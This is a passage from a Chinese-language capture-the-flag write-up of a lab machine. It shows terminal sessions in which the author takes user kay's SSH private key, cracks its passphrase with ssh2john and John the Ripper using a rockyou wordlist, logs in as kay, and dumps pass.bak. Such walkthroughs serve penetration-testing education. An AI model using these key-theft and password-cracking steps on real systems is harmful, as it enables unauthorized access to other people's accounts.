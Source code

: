 ```
**$ ls -l /home/kay/.ssh**
total 12
-rw-rw-r-- 1 kay kay  771 Apr 23  2018 authorized_keys
-rw-r--r-- 1 kay kay 3326 Apr 19  2018 id_rsa
-rw-r--r-- 1 kay kay  771 Apr 19  2018 id_rsa.pub
**$**
```

因此，我将文件下载到我的攻击箱中，并使用 SSH 公钥通过 kay 的帐户访问目标系统。在此之前，我需要破解与之相关的密码。我使用开膛手约翰( [Openwall n.d.](https://www.openwall.com/john/) )来完成这项任务:

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ ssh2john id_rsa > id_ssh2john**

**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ john ./id_ssh2john --wordlist=~./rockyou.txt  **   
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
**beeswax          (id_rsa)**     
1g 0:00:00:00 DONE 2.173g/s 179860p/s 179860c/s 179860C/s behlat..bball40
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 

**┌──(dna㉿deniers)-[~/Documents/THM/ctf/basicpentestingjt]
└─$** 
```

然后，我使用我的 AttackBox 的 SSH 客户端通过 kay 的帐户连接到目标系统:

```
**┌──(dna㉿deniers)-[~/basicpentestingjt]
└─$ ssh -i id_rsa kay@basicpentestingjt.thm   **         
Enter passphrase for key 'id_rsa': 
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-119-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

0 packages can be updated.
0 updates are security updates.

Last login: Mon Apr 23 16:04:07 2018 from 192.168.56.102
**kay@basic2:~$** 
```

我终于能够转储`pass.bak`文件了:

```
**kay@basic2:~$ ls**
pass.bak
**kay@basic2:~$ cat pass.bak**
[redacted]
**kay@basic2:~$**
```

